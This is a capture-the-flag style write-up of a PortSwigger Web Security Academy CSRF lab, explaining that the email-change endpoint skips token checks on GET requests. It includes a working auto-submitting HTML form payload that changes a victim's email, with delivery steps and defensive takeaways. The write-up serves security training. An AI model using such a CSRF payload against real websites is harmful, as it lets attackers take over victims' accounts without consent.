




# CSRF where token validation depends on request method

**Platform:** PortSwigger Web Security Academy  
**Difficulty:** Apprentice  
**Date Completed:** 26 November 2026  
**Status:** Solved

---

## Lab Description

This lab contains a CSRF vulnerability in the email change functionality.  
The application uses a CSRF token, but **token validation only occurs on POST requests**.  
GET requests to the same endpoint are processed without checking the token.

The goal is to force a logged-in victim to change their email address.

---

## Tools Used

- Burp Suite Community Edition (Proxy + HTTP history)
- PortSwigger Exploit Server
- Firefox with FoxyProxy

---

## Solution Steps

### 1. Analyze the normal request

When changing the email via the normal form, the application sends a **POST** request that includes a CSRF token:

```http
POST /my-account/change-email HTTP/2
...
email=...&csrf=...
```

If you try to send the same request without a valid token, it is rejected.

### 2. Discover the weakness

The application also accepts the email change via **GET**:

```http
GET /my-account/change-email?email=attacker@evil-user.net
```

On GET requests the CSRF token is **not validated**.

### 3. Craft the exploit

On the Exploit Server use a form that submits via GET:

```html
<html>
<body>
  <form action="https://<lab-id>.web-security-academy.net/my-account/change-email" method="GET">
    <input type="hidden" name="email" value="pwned@evil-user.net" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```

### 4. Deliver the exploit

1. Store the exploit.
2. Click **Deliver exploit to victim**.
3. The victim’s browser issues a GET request that changes the email without needing a valid CSRF token.

---

## Why the Payload Works

- The server only enforces CSRF token validation when the request method is POST.
- The same sensitive action (`/my-account/change-email`) is also reachable via GET.
- Because GET requests skip token validation, a simple auto-submitting form with `method="GET"` is enough to perform the CSRF attack.

This is a classic example of inconsistent security controls between different HTTP methods.

---

## Screenshots

### Lab solved



### Email changed (before final confirmation)



### Exploit Server payload (method=GET)



### Request in Burp (GET change-email)



---

## Key Takeaways

- CSRF tokens must be validated **regardless of the HTTP method**.
- Sensitive actions should not be allowed via GET (GET should be safe / idempotent).
- Always test whether the same endpoint behaves differently on GET vs POST.
- When a token is only checked on one method, switching the method is often enough to bypass the protection.

---

## References

- [PortSwigger – Cross-site request forgery (CSRF)](https://portswigger.net/web-security/csrf)
- [Lab link](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
